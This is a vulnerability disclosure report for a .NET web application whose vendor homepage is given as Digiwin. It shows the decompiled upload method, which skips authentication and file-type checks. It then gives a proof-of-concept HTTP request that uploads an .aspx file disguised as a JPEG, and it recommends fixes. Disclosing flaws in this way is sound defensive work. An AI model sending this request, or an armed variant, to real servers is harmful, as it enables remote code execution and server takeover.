


# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

## Vendor Homepage

https://www.digiwin.com/

## Summary

A critical vulnerability has been identified in the `.NET` web application, specifically in the file upload functionality of the `DoWebUpload` method. This vulnerability allows unauthenticated users to upload arbitrary files, potentially leading to remote code execution and complete server compromise.

## Vulnerability Details

### Affected Endpoint:

`/Api/FileUploadApi.ashx?method=DoWebUpload`

### Affected Function

The vulnerability exists in the following code snippet:

```csharp
  [RequestCheck(CheckLogin = false)]
  public void DoWebUpload()
  {
    string filename = this.bImpl.Request("filename").Replace("+", "").Replace(" ", "").Replace("%", "").Replace(" ", "");
    string str1 = this.bImpl.Request("folder", "file");
    string str2 = this.bImpl.Request("uFolder");
    bool boolean = this.bImpl.Request("uname").ToBoolean();
    int int32 = this.bImpl.Request("existDelay").ToInt32();
    long int64_1 = this.bImpl.Request("position").ToInt64();
    long int64_2 = this.bImpl.Request("totsize", this.bImpl.Request("filesize")).ToInt64();
    string str3 = this.bImpl.Request("idValue");
    string specNo = this.bImpl.Request("speciesno");
    string str4 = this.bImpl.Request("stepCode");
    string str5 = this.bImpl.Request("fileNo");
    if (string.IsNullOrEmpty(specNo) || string.op_Equality(specNo.ToLower(), "false"))
    {
      string attcBmpSpec = new DataImpl().GetAttcBmpSpec(this.ModuleId);
      specNo = string.IsNullOrEmpty(attcBmpSpec) ? "01" : attcBmpSpec;
    }
    if (!string.IsNullOrEmpty(str3) && str3.StartsWith("{") && str3.EndsWith("}"))
    {
      this.response.msg = "请选择一条记录进行上传！";
    }
    else
    {
      Hashtable hashtable = new Hashtable();
      hashtable.Add((object) "username", (object) this.user.UserName);
      hashtable.Add((object) "userid", (object) this.user.UserId);
      hashtable.Add((object) "key", (object) this.bImpl.Request("key"));
      hashtable.Add((object) "filename", (object) filename);
      hashtable.Add((object) "filesize", (object) int64_2);
      hashtable.Add((object) "specNo", (object) specNo);
      hashtable.Add((object) "fileNo", (object) str5);
      hashtable.Add((object) "stepCode", (object) str4);
      hashtable.Add((object) "value", (object) str3);
      hashtable.Add((object) "menucode", (object) this.ModuleId);
      Hashtable fInfos = hashtable;
      bool flag = !string.IsNullOrEmpty(this.ModuleId);
      string fileVPath = flag ? string.Format(Lskj.WebErp.Core.Util.WebConfigUtil.PubModelAccFilePath, (object) this.ModuleId, (object) str3, (object) str5) : (str1.StartsWith("/") ? str1 : string.Format(Lskj.Web.Core.Util.WebConfigUtil.PubModelFilePath, (object) str1, (object) this.ModuleId, (object) (DateTime.Now.ToString("yyyyMMdd") + (string.IsNullOrEmpty(str2) ? "" : "/" + str2))));
      if (flag && (((NameObjectCollectionBase) this.Request.Files).Count > 0 || int64_1 == 0L && int64_2 > 0L))
      {
        this.CheckAttcOper(1, filename, int64_2, specNo);
        if (!this.response.success)
          return;
      }
      if (((NameObjectCollectionBase) this.Request.Files).Count > 0)
      {
        ArrayList arrayList = new ArrayList();
        for (int index = 0; index < ((NameObjectCollectionBase) this.Request.Files).Count; ++index)
        {
          HttpPostedFile file = this.Request.Files[index];
          BaseResponse baseResponse = FileUtil.SaveFile(file, fileVPath, boolean ? (string) null : file.FileName, "");
          if (baseResponse.success)
          {
            fInfos[(object) "fPath"] = (object) ((FileUtil.PathInfo) baseResponse.data).RelativePath;
            if (flag)
              baseResponse = this.moduleImpl.AddAttcFileInfo(fInfos);
            if (baseResponse.success)
              arrayList.Add(baseResponse.data);
            else
              FileUtil.DeleteFile(fileVPath, filename);
          }
        }
        this.response.success = true;
        this.response.data = arrayList.Count > 1 ? (object) arrayList : arrayList[0];
      }
      else
      {
        string end = ((TextReader) new StreamReader(this.Request.InputStream, this.Request.ContentEncoding)).ReadToEnd();
        try
        {
          if (!flag)
            ;
          byte[] numArray = Convert.FromBase64String(end);
          if (numArray.Length != 0)
          {
            this.response = FileUtil.SaveFile(numArray, int64_1, int64_2, fileVPath, filename, this.AppDomain, !flag);
            if (this.response.data is FileUtil.PathInfo data)
              data.UserName = this.user.UserName;
          }
          if (flag && this.response.success && int64_1 + (long) numArray.Length >= int64_2)
          {
            fInfos[(object) "fPath"] = (object) ((FileUtil.PathInfo) this.response.data).RelativePath;
            fInfos[(object) "totTime"] = (object) FileUploadApi.GetVideoInfo(((FileUtil.PathInfo) this.response.data).SavePath);
            this.response = this.moduleImpl.AddAttcFileInfo(fInfos);
            if (!this.response.success)
            {
              FileUtil.DeleteFile(fileVPath, filename);
            }
            else
            {
              string str6 = HttpContext.Current.Server.MapPath("/DocHtml/" + new Regex(string.Format("{0}$", (object) Enumerable.Last<string>((IEnumerable<string>) filename.Split(new char[1]
              {
                '.'
              }))), (RegexOptions) 8).Replace(filename.Replace("#", ""), "").Replace(filename.Replace(" ", ""), "") + ".html");
              if (File.Exists(str6))
                File.Delete(str6);
            }
          }
          if (!this.response.success || int32 <= 0 || int64_1 + (long) numArray.Length < int64_2)
            return;
          DateTimeUtil.SetTimeOut((TimerCallback) (o => FileUtil.DeleteFile(fileVPath, filename)), int32 * 1000);
        }
        catch (Exception ex)
        {
          throw ex;
        }
      }
    }
  }
```

### Description

The `DoWebUpload` method is marked with `[RequestCheck(CheckLogin = false)]`, indicating that it does not require user authentication. This allows any user, including unauthenticated users, to access this method. The method processes file uploads without proper validation or sanitization of the uploaded file content and type. This can be exploited to upload malicious files (e.g., `.aspx` files containing server-side scripts), which can then be executed by the server, leading to remote code execution.

### Proof of Concept (PoC)

The following HTTP request demonstrates how an attacker can exploit this vulnerability to upload a malicious `.aspx` file:

```http
POST /Api/FileUploadApi.ashx?method=DoWebUpload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact

Successful exploitation of this vulnerability allows an attacker to:

1. Upload arbitrary files to the server.
2. Execute malicious code on the server, leading to full control over the server.
3. Access sensitive data and potentially compromise the entire application and its users.

## Recommendations

To mitigate this vulnerability, the following actions are recommended:

1. **Require Authentication**: Ensure that the `DoWebUpload` method requires user authentication by setting `[RequestCheck(CheckLogin = true)]`.
   
2. **Input Validation**: Implement strict input validation to verify the file type, size, and content before processing the upload. Only allow specific file types and reject any potentially dangerous files.

3. **File Storage**: Store uploaded files in a directory that is not accessible for execution by the web server.

4. **Security Best Practices**: Follow secure coding practices and regularly review the application code for potential vulnerabilities.

5. **Security Patches**: Keep the .NET framework and all third-party libraries up to date with the latest security patches.

By implementing these recommendations, the risk of remote code execution and unauthorized access can be significantly reduced.

### Conclusion:

This critical vulnerability should be addressed immediately to prevent potential exploitation. By implementing the recommended security measures, the risk of unauthorized file uploads and remote code execution can be significantly reduced.

### References:

- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [Microsoft Secure Coding Guidelines](https://docs.microsoft.com/en-us/dotnet/standard/security/secure-coding-guidelines)